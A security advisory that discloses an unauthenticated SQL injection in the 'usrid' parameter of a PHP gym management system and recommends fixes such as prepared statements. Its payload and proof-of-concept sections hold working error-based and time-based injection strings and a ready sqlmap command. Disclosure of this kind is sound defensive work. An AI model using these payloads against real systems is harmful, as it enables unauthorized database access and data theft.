 # **Security Advisory: SQL Injection in CodeZips Gym Management System (PHP) v1.0**
**Discovered By:** <font style="color:rgb(51, 51, 51);">WeQi</font>

---

## **Affected Product**
+ **Product Name**: Gym Management System in PHP with Source Code  
+ **Version**: v1.0  
+ **Vulnerable File**: `/dashboard/admin/health_status_entry.php`  
+ **Parameter**: `usrid`  
+ **Vendor Homepage**: [Gym Management System](https://codezips.com/php/gymmanagementsytem/)  
+ **Download Link**: [Source Code](https://codeload.github.com/codezips/gym-management-system-php/zip/master)

**No authentication required** to exploit this vulnerability.

---

## **Overview**
A critical SQL injection vulnerability exists in the `usrid` parameter within `/dashboard/admin/health_status_entry.php`. Attackers can inject arbitrary SQL code via specially crafted values, bypassing input validation. This could lead to unauthorized database access, data manipulation, and potentially full system compromise.

---

## **Technical Details**
### Vulnerability Type
+ **SQL Injection**   
    - Error-based  
    - Time-based blind

###  Sample Payloads
```bash

# error-based
usrid=1529336794' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(1368=1368,1))),0x71627a7171),1368) AND 'rZfT'='rZfT&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=SUBMIT

# time-based blind
usrid=1529336794' AND (SELECT 4363 FROM (SELECT(SLEEP(5)))RoxG) AND 'DvDr'='DvDr&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=SUBMIT

```

### Proof of Concept (PoC)
```bash
sqlmap -u "192.168.10.5:2227/dashboard/admin/health_status_entry.php" --data="usrid=1529336794&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=SUBMIT" --cookie="PHPSESSID=h177n9r00khd5at2r3f9oop7un" --batch --level=5 --risk=3 --dbms=mysql --tamper=space2comment
```

**Screenshots**:



![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738767687962-d25b0234-88fc-453d-b1fd-6a2a07fd14eb.png)

---

## Impact
+ **Database Compromise**: Attackers can read, modify, or delete data.  
+ **Data Leakage**: Sensitive customer/payment information could be exposed.  
+ **System Interruption**: Malicious queries may degrade performance or crash the application.  
+ **Privilege Escalation**: Potential elevation of privileges leading to broader system takeover.

---

## **Recommendations**
1. **Use Prepared Statements / Parameter Binding**  
    - Separate SQL logic from user-supplied data to prevent code injection.
2. **Enforce Strict Input Validation**  
    - Validate and sanitize incoming fields (`usrid`) against unexpected characters or formats.
3. **Apply the Principle of Least Privilege**  
    - Configure database users with minimal privileges. Avoid high-privilege accounts for routine queries.
4. **Schedule Regular Security Audits**  
    - Conduct routine code reviews, penetration testing, and dependency checks to catch new or recurring flaws.

---

## **References**
+ [Gym Management System Homepage](https://codezips.com/php/gymmanagementsytem/)  
+ [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)  
+ [sqlmap Project](https://sqlmap.org/)

---

**Disclaimer:**  
This advisory is intended for responsible disclosure. Any unauthorized exploitation of the described vulnerability may violate applicable laws. Stakeholders and the vendor are strongly encouraged to apply remediation measures immediately to ensure data protection and maintain system integrity.

